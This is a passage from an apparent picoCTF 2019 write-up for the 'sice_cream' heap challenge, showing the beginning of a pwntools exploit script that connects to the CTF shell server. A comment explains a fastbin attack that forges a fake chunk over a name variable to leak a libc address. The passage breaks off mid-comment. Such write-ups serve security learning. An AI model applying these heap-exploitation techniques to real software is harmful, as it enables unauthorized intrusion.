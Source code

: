 The exploit for that is showcased at the very end of this post.

### **Final Exploit**

If you want to run this exploit remotely, you should move it to the shell server first. The 51 allocations don't play well unless your internet is extremely fast, unlike mine ^_^
```python
#!/usr/bin/env python2

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

BINARY = './sice_cream'
HOST, PORT = '2019shell1.picoctf.com', 38495

elf = ELF(BINARY)
libc = ELF('./libc.so.6')

def debug(breakpoints):
    script = ""
    for bp in breakpoints:
        script += "b *0x%x\n"%(bp)
    gdb.attach(p,gdbscript=script)

# Application logic

def initialize(name):
    p.sendlineafter('> ', name)

def add(size, content):
    p.sendlineafter('> ', '1')
    p.sendlineafter('> ', str(size))
    p.sendafter('> ', content)

def free(idx):
    p.sendlineafter('> ', '2')
    p.sendlineafter('> ', str(idx))

def reintroduce(name):
    p.sendlineafter('> ', '3')
    p.sendafter('> ', name)
    return p.recvuntil('1.')

def start():
    if not args.REMOTE:
        return process(BINARY)
    else:
        return remote(HOST, PORT)

p = start()
if not args.REMOTE and args.GDB:
    debug([])

'''
For step 1, we want a libc leak. PIE is disabled, and the only leak we have is when we
"reintroduce" ourselves, and the program tells us what our name is.

Knowing this, the easiest way to get a libc leak is to first get a fake chunk on top of
the name variable by doing a fastbin attack. Then, we simply change the name to make it
appear to be a chunk of size 0x91, then free it. This causes the addr of main_arena+0x58
to be placed in the fd and bk fields of our fake chunk. The fd and bk fields are
essentially name[2] and name[3] respectively, if each index is considered 8 bytes long
```